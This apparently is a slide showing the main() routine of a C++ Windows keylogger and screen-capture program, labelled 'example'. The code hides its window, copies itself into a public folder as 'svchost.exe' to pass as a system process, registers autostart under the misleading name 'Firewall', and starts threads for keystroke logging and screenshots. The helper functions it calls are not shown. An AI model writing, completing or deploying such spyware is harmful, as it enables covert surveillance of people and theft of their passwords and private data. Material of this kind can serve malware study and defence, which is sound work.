

example
int main() {

	if (_access("C:\\Users\\Public\\Public", 0)) {//exist?
		_mkdir("C:\\Users\\Public\\Public");
	}

	if (_access("C:\\Users\\Public\\Public\\Screens", 0)) {
		_mkdir("C:\\Users\\Public\\Public\\Screens");
	}

	string s = util.FindPath();
	wstring stemp = wstring(s.begin(), s.end());
	LPCWSTR path = stemp.c_str();

	CopyFile(path, L"C:\\Users\\Public\\Public\\svchost.exe", TRUE);//Copies an existing file to a new file in order to hide itself.

	string screen = "C:\\Users\\Public\\Public\\Screens\\screenshot.bmp";
	char* bmp = new char[screen.size() + 1];

	strcpy(bmp, screen.c_str());

	util.HideConsole();//hide the window
	//util.Autoload("hack.exe", util.FindPath());
	util.Autoload("Firewall", "C:\\Users\\Public\\Public\\svchost.exe");//hide itself from firewall
	util.Screenshot(0, 0, 1920, 1080, (char*)(bmp), NULL);//screen shot

	thread logger(logger);

	thread screens(screens);

	if (logger.joinable())
		logger.join();//finish its execution before continuing with the rest of the program

	if (screens.joinable())
		screens.join();

	delete[] bmp;

	return 0;
}